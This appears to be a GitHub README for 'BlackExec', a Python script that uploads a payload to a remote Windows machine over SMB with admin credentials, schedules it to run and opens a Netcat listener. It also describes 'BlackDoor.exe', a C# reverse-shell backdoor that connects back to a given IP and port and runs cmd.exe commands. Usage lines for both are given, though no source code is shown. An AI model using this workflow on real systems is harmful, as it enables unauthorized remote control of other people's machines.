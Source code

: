 # **BlackExec Script Documentation**

## **Introduction**

BlackExec.py is designed to facilitate the deployment of a payload onto a remote machine using the SMB (Server Message Block) protocol. It establishes an SMB connection, uploads the payload to a specified SMB share, and then schedules a task on the remote machine to execute the payload. The script provides options for local and remote connections, allowing flexibility in configuring the payload deployment process.

## **Dependencies**

The script relies on the following dependencies:

- **`smbclient`**: A Python library for interacting with SMB/CIFS shares.
- **`subprocess`**: A module for spawning new processes, used to execute shell commands.
- **`datetime`**: A module for manipulating dates and times.
- **`argparse`**: A module for parsing command-line arguments.
- **`socket`**: A module for working with network sockets.
- **`threading`**: A module for creating and managing threads.
- **`random`**: A module for generating random numbers.

Ensure that these dependencies are installed before running the script.

## **Script Functions**

The script includes several functions to facilitate the payload deployment process. The following are the main functions:

- **`netcat_thread(port)`**: Spawns a new command prompt window and starts the Netcat listener on the specified port. Used for local connections where the payload will connect back to the script's host machine.
- **`run_command(command)`**: Executes a shell command using the **`subprocess`** module.
- **`main(ip=None, username=None, password=None, local=False, remote=False)`**: Orchestrates the payload deployment process. Establishes an SMB connection, uploads the payload to the remote machine, schedules a task to execute the payload, and connects to the payload listener.

## **Usage**

The script can be executed from the command line with the following options:

```
python blackexec.py [-u USERNAME] [-p PASSWORD] [-ip IP_ADDR] [-local] [-remote IP]
```

The command-line arguments are as follows:

- **`u USERNAME, --username USERNAME`**: The admin username for the remote machine.
- **`p PASSWORD, --password PASSWORD`**: The admin password for the remote machine.
- **`ip IP_ADDR, --ip_addr IP_ADDR`**: The IP address of the remote machine.
- **`local, --local_ip`**: Option to create a connection to the local machine.
- **`remote REMOTE_IP, --remote_ip REMOTE_IP`**: Option to send a connection to a remote machine (default port: 2001). An optional parameter **`REMOTE_IP`** can be provided to specify the remote machine's IP address. If not specified, the default port 2001 will be used.

Ensure that the required arguments are provided when running the script.

## **Workflow**

The script follows the following workflow:

1. Establish an SMB connection using the provided username and password.
2. Upload the payload to the specified SMB share on the remote machine.
3. Schedule a task to execute the payload.
4. Connect to the payload listener either locally or remotely.

The script handles both local and remote connections. For local connections, it spawns a Netcat listener on a random port. For remote connections, it specifies the IP address and port for the payload listener.

# **Payload**

BlackDoor.exe is a payload designed to establish a TCP connection to a remote machine and execute shell commands on that machine. It acts as a backdoor, providing remote access and control over the target system. The payload is implemented in C# and can be compiled into an executable file for deployment.

To use BlackDoor.exe, follow these steps:

1. Compile the C# code into an executable using a C# compiler or an integrated development environment (IDE) such as Visual Studio.
2. Execute the compiled BlackDoor.exe file with the following command-line arguments:Replace **`<IP_ADDRESS>`** with the IP address of the machine where the payload should connect, and **`<PORT>`** with the port number on which the payload should establish the TCP connection.
    
    ```
    BlackDoor.exe <IP_ADDRESS> <PORT>
    ```
    

## **Dependencies**

BlackDoor.exe does not have any external dependencies. It utilizes the core functionality of the .NET Framework and the C# programming language.

## **Functionality**

BlackDoor.exe provides the following functionality:

- Establishes a TCP connection to the specified IP address and port.
- Executes shell commands on the remote machine.
- Sends the output of the executed command back to the client machine.
- Supports continuous command execution until terminated.

## **Command Execution**

Once the BlackDoor.exe payload is executed on the target machine, it enters into a loop where it waits for commands from the client machine. Upon receiving a command, it executes the command using the Windows command prompt (**`cmd.exe`**). The output of the executed command is then sent back to the client machine.

## **Security Considerations**

When deploying the BlackExec.py, it is crucial to consider security implications. The payload grants remote access to the target machine, which can be misused if not handled properly. Ensure that the payload is deployed and used only in authorized and controlled environments. Implement appropriate security measures, such as network segmentation and access controls, to prevent unauthorized access to the payload.

**Note:** The BlackDoor.exe payload is provided for educational and informational purposes only. It should be used responsibly and ethically, and with the explicit permission of the target machine's owner.

## **Conclusion**

BlackExec script simplifies the process of deploying a payload onto a remote machine. By leveraging the SMB protocol, it provides a secure and efficient method for uploading and executing the payload. The script's flexibility allows for different deployment scenarios, whether connecting to the local machine or sending connections to remote machines.
